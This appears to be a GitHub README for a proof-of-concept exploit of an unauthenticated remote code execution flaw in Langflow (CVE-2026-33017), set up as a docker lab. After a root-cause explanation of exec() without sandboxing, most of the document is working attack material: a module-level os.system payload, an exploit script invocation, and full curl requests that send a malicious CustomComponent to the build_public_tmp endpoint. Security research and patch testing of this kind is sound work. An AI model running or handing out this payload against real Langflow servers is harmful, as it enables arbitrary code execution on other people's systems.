

# Langflow Unauthenticated Remote Code Execution (CVE-2026-33017)

Unauthenticated remote code execution vulnerability in Langflow through 1.8.1 allows remote attackers to execute arbitrary Python code via the `build_public_tmp` endpoint with attacker-controlled flow data. The endpoint accepts arbitrary Python code in CustomComponent nodes and executes it via `exec()` without sandboxing.

## Root Cause of the Vulnerability

The `build_public_tmp` endpoint in `/api/v1/build_public_tmp/{flow_id}/flow` (api/v1/chat.py) allows building public flows **without authentication**. When the `data` parameter is provided, the endpoint uses attacker-controlled flow data instead of fetching from database.

The vulnerability execution chain:

```
build_public_tmp(data=...) (api/v1/chat.py)
    → start_flow_build() (api/build.py)
        → generate_flow_events() (api/build.py)
            → build_graph_from_data() (api/utils/core.py)
                → Graph.from_payload() (graph/graph/base.py)
                    → instantiate_class() (graph/vertex/base.py)
                        → eval_custom_component_code() (utils/validate.py)
                            → exec(code, globals, locals)  ← No sandbox!
```

The `eval_custom_component_code` function (utils/validate.py) executes module-level code immediately:

```python
def eval_custom_component_code(code: str):
    globals_dict = prepare_global_scope()  # Setup Python environment
    locals_dict = {}
    exec(code, globals_dict, locals_dict)  # Module-level code executes here!
    return locals_dict.get("Component", None)
```

The payload exploits this by placing malicious code at module level:

```python
# This executes immediately during exec(), before class is instantiated
_r = __import__('os').system('id')

class ExploitComponent(Component):
    def run(self) -> str:
        return "ok"
```

The payload must include these fields to be recognized as CustomComponent:
- `data.type`: `"CustomComponent"`
- `template._type`: `"CustomComponent"`  
- `code.value`: malicious Python code

## Setup Environment

```
docker compose up -d
```

Wait for the service to be ready (30-60 seconds), then access http://localhost:7860

## Exploit

Using the automated exploit script:

```bash
# Auto mode: get token → create flow → exploit → cleanup
python3 exploit.py --target http://localhost:7860 --auto

# Or with known flow ID
python3 exploit.py --target http://localhost:7860 \
  --flow-id <flow-uuid> \
  --command "id"
```

Or manually with curl:

```bash
# Step 1: Create a PUBLIC flow (requires authentication)
TOKEN=$(curl -s http://localhost:7860/api/v1/auto_login | jq -r '.access_token')

curl -X POST http://localhost:7860/api/v1/flows/ \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"name":"poc","data":{"nodes":[],"edges":[],"viewport":{}},"access_type":"PUBLIC"}'

# Step 2: Exploit (unauthenticated)
curl -X POST "http://localhost:7860/api/v1/build_public_tmp/<flow_id>/flow" \
  -H "Content-Type: application/json" \
  -b "client_id=poc-session" \
  -d '{
    "data": {
      "nodes": [{
        "id": "ExploitNode",
        "type": "genericNode",
        "position": {"x": 0, "y": 0},
        "data": {
          "type": "CustomComponent",
          "id": "ExploitNode",
          "node": {
            "template": {
              "_type": "CustomComponent",
              "code": {
                "value": "from langflow.custom import Component\nfrom langflow.io import Output\n\n_r = __import__('os').system('id > /tmp/pwned.txt')\n\nclass ExploitComponent(Component):\n    display_name = \"ExploitComponent\"\n    description = \"PoC\"\n    outputs = [Output(display_name=\"Result\", name=\"output\", method=\"run\")]\n\n    def run(self) -> str:\n        return \"ok\"",
                "type": "code",
                "required": true,
                "show": true,
                "name": "code"
              }
            },
            "display_name": "ExploitComponent"
          }
        }
      }],
      "edges": [],
      "viewport": {"x": 0, "y": 0, "zoom": 1}
    }
  }'

# Step 3: Verify RCE
docker exec cve-2026-33017-langflow-1 cat /tmp/pwned.txt
```



## Disclaimer

This repository is provided for educational and research purposes only. **Do not use this code on any system you do not own or have explicit written permission to test.** Unauthorized access to computer systems is illegal.
